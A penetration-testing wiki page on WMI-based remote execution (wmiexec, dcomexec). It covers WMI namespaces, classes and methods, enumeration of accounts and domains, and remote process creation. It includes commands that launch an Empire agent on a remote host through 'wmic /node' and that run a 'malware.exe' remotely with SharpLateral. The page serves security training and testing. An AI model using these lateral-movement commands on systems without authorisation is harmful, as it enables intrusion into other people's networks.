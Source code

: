 # WmicExec

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## How It Works Explained

Processes can be opened on hosts where the username and either password or hash are known through the use of WMI. Commands are executed using WMI by Wmiexec, providing a semi-interactive shell experience.

**dcomexec.py:** Utilizing different DCOM endpoints, this script offers a semi-interactive shell akin to wmiexec.py, specifically leveraging the ShellBrowserWindow DCOM object. It currently supports MMC20. Application, Shell Windows, and Shell Browser Window objects. (source: [Hacking Articles](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/))

## WMI Fundamentals

### Namespace

Structured in a directory-style hierarchy, WMI's top-level container is \root, under which additional directories, referred to as namespaces, are organized.
Commands to list namespaces:

```bash
# Retrieval of Root namespaces
gwmi -namespace "root" -Class "__Namespace" | Select Name

# Enumeration of all namespaces (administrator privileges may be required)
Get-WmiObject -Class "__Namespace" -Namespace "Root" -List -Recurse 2> $null | select __Namespace | sort __Namespace

# Listing of namespaces within "root\cimv2"
Get-WmiObject -Class "__Namespace" -Namespace "root\cimv2" -List -Recurse 2> $null | select __Namespace | sort __Namespace
```

Classes within a namespace can be listed using:

```bash
gwmwi -List -Recurse # Defaults to "root\cimv2" if no namespace specified
gwmi -Namespace "root/microsoft" -List -Recurse
```

### **Classes**

Knowing a WMI class name, such as win32\_process, and the namespace it resides in is crucial for any WMI operation.
Commands to list classes beginning with `win32`:

```bash
Get-WmiObject -Recurse -List -class win32* | more # Defaults to "root\cimv2"
gwmi -Namespace "root/microsoft" -List -Recurse -Class "MSFT_MpComput*"
```

Invocation of a class:

```bash
# Defaults to "root/cimv2" when namespace isn't specified
Get-WmiObject -Class win32_share
Get-WmiObject -Namespace "root/microsoft/windows/defender" -Class MSFT_MpComputerStatus
```

### Methods

Methods, which are one or more executable functions of WMI classes, can be executed.

```bash
# Class loading, method listing, and execution
$c = [wmiclass]"win32_share"
$c.methods
# To create a share: $c.Create("c:\share\path","name",0,$null,"My Description")
```

```bash
# Method listing and invocation
Invoke-WmiMethod -Class win32_share -Name Create -ArgumentList @($null, "Description", $null, "Name", $null, "c:\share\path",0)
```

## WMI Enumeration

### WMI Service Status

Commands to verify if the WMI service is operational:

```bash
# WMI service status check
Get-Service Winmgmt

# Via CMD
net start | findstr "Instrumentation"
```

### System and Process Information

Gathering system and process information through WMI:

```bash
Get-WmiObject -ClassName win32_operatingsystem | select * | more
Get-WmiObject win32_process | Select Name, Processid
```

For attackers, WMI is a potent tool for enumerating sensitive data about systems or domains.

```bash
wmic computerystem list full /format:list  
wmic process list /format:list  
wmic ntdomain list /format:list  
wmic useraccount list /format:list  
wmic group list /format:list  
wmic sysaccount list /format:list  
```

Remote querying of WMI for specific information, such as local admins or logged-on users, is feasible with careful command construction.

### **Manual Remote WMI Querying**

Stealthy identification of local admins on a remote machine and logged-on users can be achieved through specific WMI queries. `wmic` also supports reading from a text file to execute commands on multiple nodes simultaneously.

To remotely execute a process over WMI, such as deploying an Empire agent, the following command structure is employed, with successful execution indicated by a return value of "0":

```bash
wmic /node:hostname /user:user path win32_process call create "empire launcher string here"
```

This process illustrates WMI's capability for remote execution and system enumeration, highlighting its utility for both system administration and penetration testing.


## References
* [https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)

## Automatic Tools

* [**SharpLateral**](https://github.com/mertdas/SharpLateral):

{% code overflow="wrap" %}
```bash
SharpLateral redwmi HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe
```
{% endcode %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

